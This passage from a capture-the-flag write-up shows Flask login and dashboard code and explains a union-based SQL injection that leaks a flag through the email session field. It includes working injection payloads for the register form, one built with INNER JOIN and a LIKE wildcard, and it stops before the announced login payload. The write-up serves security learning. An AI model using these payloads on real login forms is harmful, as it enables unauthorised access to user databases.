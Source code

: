 ```python
            session['email'] = user['email']
            return redirect(url_for('dashboard'))
        else:
            return render_template('login.html', error='Invalid username or password')
       except:
           return render_template('login.html', error='Invalid username or password')
    return render_template('login.html')

############ SNIP

@app.route('/dashboard')
def dashboard():
    if 'username' in session:
        username = session['username']
        # The email is taken from the DB, to the session and then rendered to the template
        email = session['email']
        return render_template('dashboard.html', user=username,email=email)
    return redirect(url_for('login'))
```

On the username we can go for a blind boolean injection, but no brute-force is allowed. The idea as spoiled in the code, is to make a [union SQL injection](https://portswigger.net/web-security/sql-injection/union-attacks) and return the **flag** on the query on the **email** position so it gets loaded into the session and rendered in the HTML. The issue is the following check after the injection. The code checks if username from the POST request payload is equal to the username taken from the DB, and that is not possible with only one payload (if I think it twice, I believe it's possible with the wildcards). Let's break it down:

Imagine we have the following payload:

```bash
username=wee"+union+select+"wee",flag,"wee"+from+flags--&password=wee         
```
The username from the POST will be:
_**_wee"+union+select+"wee",flag,"wee"+from+flags--_

The username from the SQL Query with the injection is:
_wee_

That is not equal, but if we try to rebuild the username in the DB, we get into an infinite loop, since we have to insert the payload within the payload, i.e. P != P+P. So the solution is to use the wildcard on the DB, using for example _LIKE "wee%"_. We use INNER JOIN to take the **username** and the **password** from **users** table and the **flag** from the **flags** table:

We send the following payload on register. We have to use the hash of the dummy password "ttt" since the code does not work as expected, I suppose:

```sql
# Register
## Payload
username=ittt"+union+select+username,flag,"9990775155c3518a0d7917f7780b24aa"+from+users+inner+join+flags+on+username+like+"ittt%"--&email=wee%40wee.com&password=ttt
```

And on the login endpoint we send the following payload:

